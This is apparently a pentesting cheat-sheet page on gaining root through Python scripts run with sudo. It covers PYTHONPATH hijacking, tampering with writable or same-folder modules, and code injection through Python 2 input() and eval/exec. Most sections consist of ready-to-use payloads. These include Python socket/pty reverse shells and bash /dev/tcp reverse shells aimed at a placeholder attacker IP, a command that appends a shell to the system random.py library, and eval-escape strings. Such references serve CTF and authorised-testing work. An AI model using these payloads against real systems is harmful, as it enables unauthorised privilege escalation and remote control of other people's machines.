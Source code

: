 # Python

## Theory 

Python scripting is a powerful tool used by system administrators and developers to automate tasks and streamline processes on Unix-like systems. However, like any software, python scripts can be vulnerable to various security issues, which, if exploited, can lead to privilege escalation and unauthorized access.

## Practice 

### PYTHONPATH Hijacking 

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights and SETENV,NOPASSWD.
```bash
sudo -l

        (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/scripts/example.py
```
With `SETENV`, we can change PYTHONPATH when executing the script, and insert malicious script to the module which is imported in the script.

Fisrt, we can check what module is imported in the python script (e.g. /opt/scripts/example.py here).
```python
import random

print(random.randint(1, 8))
```
{% endtab %}

{% tab title="Exploit" %}
We can forge the imported module
```bash
$ cat /tmp/random.py

import socket,os,pty;s=socket.socket();s.connect(("<local-ip>",9001));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")
```

Then run the python script with updating PYTHONPATH in the remote machine.
```bash
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/scripts/example.py
```
{% hint style="info" %}
By setting `PYTHONPATH=/tmp/`, the python script will import modules from `/tmp/` directories so the "random" module is imported from /tmp/random.py.
{% endhint %}

{% endtab %}
{% endtabs %}


### Python Library Overriding

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights. If the Python script contains a **module that can be modified** by current user, we can inject arbitrary code into the module.
```bash
sudo -l

        (root): /usr/bin/python3 /opt/scripts/example.py
```

Find writable python modules
```bash
$ find / -name "*.py" -writable 2>/dev/null

/usr/lib/python3.11/random.py
```

We can check if modules on which we have write access are imported by the script
```python
import random

print(random.randint(1, 8))
```
{% endtab %}

{% tab title="Exploit" %}
We can append our payload at the end the of the module
```bash
$ echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING_IP",9002));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' >> /usr/lib/python3.11/random.py
```

Then run the python script with sudo
```bash
sudo /usr/bin/python3 /opt/scripts/example.py
```
{% endtab %}
{% endtabs %}


### Python Library Hijacking

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights. If we can **write on the folder containing the script**, then python will prioritize the execution of this module instead of the usual path
```bash
sudo -l

        (root): /usr/bin/python3 /opt/scripts/example.py
```

Check what modules are imported by the script
```python
import random

print(random.randint(1, 8))
```

Check write access
```bash
$ touch /opt/scripts/random.py
```
{% endtab %}

{% tab title="Exploit" %}
Write the malicious module on the same folder as the script
```bash
$ cat /opt/scripts/random.py

#!/usr/bin/bash
import os
os.system('bash -c "/bin/bash -i >& /dev/tcp/<ATTACING_IP>/9001 0>&1"')
```

Then run the python script with sudo
```bash
sudo /usr/bin/python3 /opt/scripts/example.py
```
{% endtab %}
{% endtabs %}


### OS Commands in input()

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights. If it use the `input` function and if it's **python2.x**, the input() function is equivalent to `eval(raw_input)`. Then we can execute arbitrary code.
```bash
sudo -l

        (root): /usr/bin/python2.7 /opt/scripts/example.py
```

Check that the input command is used
```python
compute = input('\nYour expression? => ')
```
{% endtab %}

{% tab title="Exploit" %}
We can enter an OS commands in the input function
```bash
$ sudo /usr/bin/python3 /opt/scripts/example.py

Enter Your expression? => __import__('os').system('id')
#or
Enter Your expression? => __import__('os').system('bash -c "bash -i >& /dev/tcp/<ATTACKING_IP>/9001 0>&1"')
```
{% endtab %}
{% endtabs %}


### OS Commands in Eval() and Exec()

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights. If it use the `eval()` or `exec()` method, then it's vulnerable to arbitrary code execution.
```bash
sudo -l

        (root): /usr/bin/python3 /opt/scripts/example.py
```

Check that one of this commands is used, examples:
```python
#With eval
eval(text)
eval(f"5 + {num}")
print ("Result =", eval(comp))

#With exec
code = input('What command(s) in python did you learn today?')
exec(code)
```
{% endtab %}

{% tab title="Exploit" %}
If we controll some variables passed to this vulnerables functions, we can inject arbitrary code.
```python
__import__('os').system('id')

#Bypass another expression in eval
),__import__('os').system('id')
'),__import__('os').system('id')
},__import__('os').system('id')
),__import__('os').system('id')#

#Example of a ReverseShell
__import__('os').system('bash -c "bash -i >& /dev/tcp/<ATTACKING_IP>/9001 0>&1"')
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/" %}

{% embed url="https://mikadmin.fr/blog/linux-privilege-escalation-python-library-hijacking/" %}

{% embed url="https://www.stackhawk.com/blog/command-injection-python/" %}
